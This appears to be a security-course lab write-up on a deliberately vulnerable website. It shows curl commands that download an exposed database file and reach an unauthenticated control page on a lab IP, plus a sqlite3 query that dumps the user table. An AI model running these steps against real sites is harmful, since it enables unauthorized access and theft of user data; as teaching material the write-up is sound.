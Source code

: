 # Vulnerable Website: Broken Access Control

To exploit the Broken Access Control vulnerability in the vulnerable website, follow these steps:

## Access to Database Directory

1. The directory structure of the vulnerable website is as follows:

    ```bash
    ├── db
    │ └── db.sql
    ├── control.php
    ├── css.css
    ├── dbconn.php
    ├── index.php
    ├── jquery-2.2.4.min.js
    └── js.js
    ```


2. Perform the following command to obtain the database file:

    ```bash
    curl http://10.10.1.231:51130/__db__/db.sql --output db.sql
    ```

    This command downloads the `db.sql` file from the `__db__` directory.

3. Once the db.sql file is obtained, execute the following command to print the content of the database:

    ```sql
    sqlite3 db.sql "SELECT * FROM user"
    ```

    This command uses SQLite to query and retrieve the data from the user table within the obtained database file.

    <div align="center">
        <img src="https://github.com/BenIlies/CS394X/raw/main/Vulnerable-Website/Attacks/Broken-Access-Control/database-dumping.PNG" alt="Database Dumping">
    </div>

## Lack of Session Management

1. In addition to the access to the database directory, there is a lack of Session Management for accessing the `control.php` page. This means that even without authenticating, a malicious user can still access the page.

    To highlight this, execute the following command (or perform the action in a web browser):

    ```bash
    curl http://10.10.1.231:51130/control.php
    ```

    This command accesses the `control.php` page without authentication, demonstrating the lack of proper session management. It allows unauthorized access to the web page.

    **Note:** Tools like DirBuster can be used to discover hidden files or directories, but they are not specifically related to this vulnerability.